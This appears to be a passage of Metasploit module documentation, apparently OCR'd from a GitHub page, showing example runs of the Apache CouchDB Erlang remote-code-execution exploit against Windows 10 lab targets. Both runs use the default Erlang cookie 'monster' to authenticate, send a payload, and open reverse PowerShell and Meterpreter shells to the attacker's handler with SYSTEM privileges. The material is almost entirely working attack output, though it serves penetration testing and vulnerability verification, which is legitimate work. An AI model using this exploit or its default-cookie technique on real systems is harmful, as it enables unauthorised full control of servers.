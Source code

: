 ### Target: Windows Command, Windows 10, Apache CouchDB 2.3.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
[*] Powershell session session 11 opened (172.16.199.1:4444 -> 172.16.199.137:49762) at 2022-10-17 18:44:16 -0400


Shell Banner:
Windows PowerShell running as user DESKTOP-8ATHH6O$ on DESKTOP-8ATHH6O
Copyright (C) Microsoft Corporation. All rights reserved.
-----

PS C:\CouchDB> whoami
nt authority\system
PS C:\CouchDB> systeminfo

Host Name:                 DESKTOP-8ATHH6O
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042
...
PS C:\CouchDB>
```

### Target  Windows Dropper, Windows 10, Apache CouchDB 2.3.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
...
[*] 172.16.199.137:4369 - Command Stager progress -  99.41% done (306900/308720 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] Meterpreter session 5 opened (172.16.199.1:4444 -> 172.16.199.137:49749) at 2022-10-14 17:09:31 -0400
[*] 172.16.199.137:4369 - Command Stager progress - 100.00% done (308720/308720 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```